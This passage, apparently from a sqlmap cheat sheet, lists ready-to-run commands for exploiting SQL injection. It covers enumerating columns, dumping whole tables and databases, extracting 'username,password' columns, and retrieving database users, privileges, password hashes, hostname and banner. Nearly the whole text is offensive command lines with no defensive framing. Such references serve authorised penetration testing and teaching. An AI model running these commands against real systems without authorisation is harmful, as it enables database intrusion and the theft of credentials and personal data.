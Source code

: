 ### Column Enumeration
```bash
# List columns in specific table
sqlmap -r request.txt -D database_name -T table_name --columns

# List columns (current db)
sqlmap -r request.txt -T table_name --columns
```

### Data Extraction
```bash
# Dump entire table
sqlmap -r request.txt -D database_name -T table_name --dump

# Dump specific columns
sqlmap -r request.txt -D database_name -T table_name -C "username,password" --dump

# Dump all data from database
sqlmap -r request.txt -D database_name --dump-all

# Dump with conditions
sqlmap -r request.txt -D database_name -T table_name --where="id>100" --dump
```

## System Information

### User & Privileges
```bash
# Get current user
sqlmap -r request.txt --current-user

# Check if current user is DBA
sqlmap -r request.txt --is-dba

# List all database users
sqlmap -r request.txt --users

# Get user privileges
sqlmap -r request.txt --privileges

# Get user passwords
sqlmap -r request.txt --passwords
```

### System Details
```bash
# Get hostname
sqlmap -r request.txt --hostname

# Get database banner
sqlmap -r request.txt --banner
```
